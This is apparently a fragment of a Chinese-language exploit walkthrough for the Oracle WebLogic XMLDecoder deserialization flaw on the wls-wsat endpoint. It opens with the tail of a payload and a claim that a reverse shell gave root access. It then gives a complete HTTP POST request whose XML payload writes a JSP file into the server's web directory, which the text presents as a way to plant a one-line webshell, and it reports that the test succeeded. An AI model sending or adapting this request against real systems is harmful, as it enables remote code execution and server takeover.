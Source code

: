```
</void>
</array>
<void method="start"/></void>
</java>
</work:WorkContext>
</soapenv:Header>
<soapenv:Body/>
</soapenv:Envelope>
```

反弹shell连接成功，拿到root权限

![image-20210413130043894](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413130043894.png)



我们也可以写入一句话木马，访问：`http://your-ip:7001/bea_wls_internal/test.jsp`

```
POST /wls-wsat/CoordinatorPortType HTTP/1.1
Host: your-ip:7001
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Connection: close
Content-Type: text/xml
Content-Length: 638

<soapenv:Envelope xmlns:soapenv="http://schemas.xmlsoap.org/soap/envelope/">
    <soapenv:Header>
    <work:WorkContext xmlns:work="http://bea.com/2004/06/soap/workarea/">
    <java><java version="1.4.0" class="java.beans.XMLDecoder">
    <object class="java.io.PrintWriter"> 
    <string>servers/AdminServer/tmp/_WL_internal/bea_wls_internal/9j4dqk/war/test.jsp</string>
    <void method="println"><string>
    <![CDATA[
<% out.print("test"); %>
    ]]>
    </string>
    </void>
    <void method="close"/>
    </object></java></java>
    </work:WorkContext>
    </soapenv:Header>
    <soapenv:Body/>
</soapenv:Envelope>
```

![image-20210413130450492](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413130450492.png)

访问测试成功

![image-20210413130544216](https://antlersmaskdown.oss-cn-hangzhou.aliyuncs.com/image-20210413130544216.png)
